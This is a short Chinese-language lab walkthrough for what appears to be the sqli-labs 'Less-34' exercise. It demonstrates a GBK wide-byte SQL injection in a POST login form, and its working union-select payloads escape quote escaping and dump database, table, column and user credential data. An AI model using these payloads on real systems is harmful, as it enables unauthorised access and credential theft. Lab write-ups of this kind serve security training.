

# Less - 34

---

# 通关教程

---

## 1、判断闭合

---

先使用用户名和密码登录进去，如下

​​

在admin后面加上一个单引号发现被转义了

​​

---

查看源代码可知确实使用了GBK编码，直接在单引号前面加上%df让单引号成功逃逸

​​通过错误信息判断闭合方式为’#，并且为字符型注入

---

## 2、查看数据库

---

```http
uname=a%df' union select 1,database()#&passwd=admin&submit=Submit
```

​​

---

## 3、查看security库下的所有表

---

```http
uname=a%df' union select 1,(select group_concat(table_name) from information_schema.tables where table_schema=database())#&passwd=admin&submit=Submit
```

​​

---

## 4、查看users表下的所有字段

---

```http
uname=a%df' union select 1,(select group_concat(column_name) from information_schema.columns where table_name=0x7573657273)#&passwd=admin&submit=Submit
```

​​

---

## 5、查看username,password字段下的所有值

---

```http
uname=a%df' union select 1,(select group_concat(username,password) from security.users)#&passwd=admin&submit=Submit
```

​​

‍
